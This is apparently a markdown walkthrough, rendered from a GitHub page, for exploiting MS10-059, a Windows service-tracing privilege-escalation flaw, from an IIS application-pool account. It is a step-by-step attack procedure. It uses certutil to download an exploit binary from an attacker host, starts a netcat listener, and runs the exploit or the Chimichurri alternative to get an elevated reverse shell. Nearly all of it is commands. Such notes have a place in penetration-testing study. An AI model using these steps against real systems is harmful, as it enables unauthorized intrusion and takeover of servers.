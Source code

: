#   MS10-059 - Vulnerability in the Tracing Feature for Service

MS10-059 is an elevation of privilege vulnerability in thr tracing feature for windows service. This exploit works specifically with IIS users (like ```IIS APPOOL\DEFAULTAPPPOOL```). Successful exploitation can allow an attacker to execute coode with elevated privileges.

---

## Note:

*   Exploit works with IIS users only.
*   tested on windows 7 Ultimate (x86 and x64)

--- 

##  Identify IIS User:

```poweshell
whoami
```

Example Output:

```poweshell
iis apppool\defaultapppool
```

---

#   Exploit Execution

[Exploit Files](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059)

## 1. Download Exploit to target machine:

using ```certutil``` to download the exploit file:

```powershell
certutil.exe -urlcache -split -f "http://192.168.29.218/MS10-059.exe" MS10-059.exe
```

---

## 2. Start Netcat Listener on the attacker machine

```bash
rlwrap nc -nlvp 4455
```

---

## 3. Execute the Exploit

```powershell
MS10-059.exe 192.168.29.218 4455
```

---

##  4. Using Chimichurri Exploit (Alternate):

```powershell
chimichurri.exe 192.168.28.218 4455
```

---